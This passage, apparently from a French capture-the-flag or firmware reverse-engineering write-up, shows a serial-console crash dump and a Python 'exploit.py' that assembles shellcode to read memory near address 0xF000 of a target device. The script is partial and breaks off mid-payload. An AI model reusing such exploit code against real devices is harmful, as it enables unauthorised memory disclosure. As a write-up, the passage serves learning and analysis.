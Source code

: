     :: Serial port connected.
    :: Uploading firmware... done.

    System reset.
    -- Exception occurred at 5868: Invalid instruction.
       r0:FC08     r1:0000    r2:0100    r3:004A
       r4:5800     r5:0001    r6:0000    r7:0000
       r8:000A     r9:000A   r10:0000   r11:0000
      r12:0000    r13:EFFE   r14:0000   r15:FD1C
       pc:5868 fault_addr:0000 [S:1 Z:0] Mode:kernel
    CLOSING: Invalid instruction.

Le code Python suivant demande un offset par rapport à l’adresse 0xF000
et permet de lire 5 octets par fois.

    $ cat exploit.py
    import parser
    import socket
    import select
    import sys

    def reada(addr, l):
        h00 = (addr & 0xff00) >> 8
        l00 = addr & 0x00ff
        h01 = (l & 0xff00) >> 8
        l01 = l & 0x00ff
        return [ 0x20, h00, 0x10, l00, 0x21, h01, 0x11, l01, 0xc8, 0x2 ]

    def writea(addr, w=0):
        h00 = (addr & 0xff00) >> 8
        l00 = addr & 0x00ff
        return [ 0x20, h00, 0x10, l00, 0xc8, 0x3 ]

    def storeatoffset(offset, w=0):
        h00 = offset >> 8
        l00 = offset & 0xff
        h05 = w >> 8
        l05 = w & 0xff
        return [ 0x21, h00, 0x11, l00, 0x25, h05, 0x15, l05, 0xf5, 0x1 ]

    if __name__ == "__main__":
    	if len(sys.argv) != 2:
    		print("Usage python exploit.py offset_2_0xf000")
    		sys.exit(0)
    		
    payload = b''
    with open('fw.hex', 'wt') as output:
        cmd = parser.Cmd()
        cmd.payload = [0x20, 0x58, 0x10, 0x4a]
        shellcode = []
        a = int(sys.argv[1])*5
        shellcode += [0x20, (0xf000+a)>>8, 0x10, (0xf000+a)&0xff, 0xe8, 0x1]
        a += 1
        shellcode += [0x20, (0xf000+a)>>8, 0x10, (0xf000+a)&0xff, 0xe9, 0x1]
        a += 1
        shellcode += [0x20, (0xf000+a)>>8, 0x10, (0xf000+a)&0xff, 0xea, 0x1]
        a += 1
        shellcode += [0x20, (0xf000+a)>>8, 0x10, (0xf000+a)&0xff, 0xeb, 0x1]
        a += 1
        shellcode += [0x20, (0xf000+a)>>8, 0x10, (0xf000+a)&0xff, 0xec, 0x1]


[^1]: <https://www.kernel.org/doc/Documentation/usb/usbmon.txt>
[^2]: git://gitorious.org/usbmon-parser/usbmon-parser.git
[^3]: <http://blogs.kgsoft.co.uk/2013_03_15_prg.htm>
[^4]: [www.qemu.org/](www.qemu.org/)
[^5]: <https://releases.linaro.org/latest/components/toolchain/binaries/>
[^6]: <https://www.hex-rays.com/products/ida/>
[^7]: <http://board.flatassembler.net/download.php?id=5698>